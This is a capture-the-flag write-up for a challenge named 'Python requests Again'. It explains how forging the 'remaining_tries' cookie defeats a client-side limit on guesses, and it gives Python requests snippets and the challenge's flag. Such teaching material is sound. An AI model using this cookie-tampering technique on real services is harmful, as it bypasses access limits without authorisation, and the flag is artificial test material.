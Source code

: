 # Challenge `Python requests Again` Writeup

- Vulnerability: 
  - brute-force attack and cookie poisoning
- Where:
  - `/more` endpoint and `remaining_tries` cookie value
- Impact:
  - allows to find the server's guess by repeated requests and cookie poisoning

## Analyzing the server

This challenges consists in guessing a random number generated by the server.
By sending a request to `/hello` endpoint, the server responds with a `current` value and a `target` value.
By sending a request to `/more` endpoint, the `current` value increases or decreases by a random amount. However, it's only allowed to send one request per guess.
The flag is obtained by sending a request to `/finish` when the `current` value is equal to the `target` value.
The server's session is associated with a cookie, so all requests must be sent with it.

## Exploit

First send a request to `/hello` to obtain a cookie and the `current` and `target` values. 
```python
session = requests.session()
r = session.get(URL+"hello")
lines = r.text.split("<br>")
total = lines[0].split(" ")[-1][:-1]
current = lines[1].split(" ")[-1]
```
If the values are different, send requests to `/more` until they are the same.
To be able to send more requests, poison the `remaining_tries` value by modifying the cookie.
Either set the value to `1` after each request or set a new cookie entry with the same `remaining_tries` name and no specific domain which wouldn't be updated and therefore wouldn't need to be set after every request.
```python
r = session.get(URL+"more")
lines = r.text.split("<br>")
current = lines[2].split(" ")[-1]
session.cookies.set("remaining_tries", "1", domain="mustard.stt.rnl.tecnico.ulisboa.pt")
```  
Finally send a request to `/finish` to obtain the flag `SSof{Client_side_validation_NO_NO_NO}`.
```python
r = session.get(URL+"finish")
flag = r.text.split(" ")[-1]
```

## Implementation

These code snippets and full implementation can be found [here](python_requests_again.py).
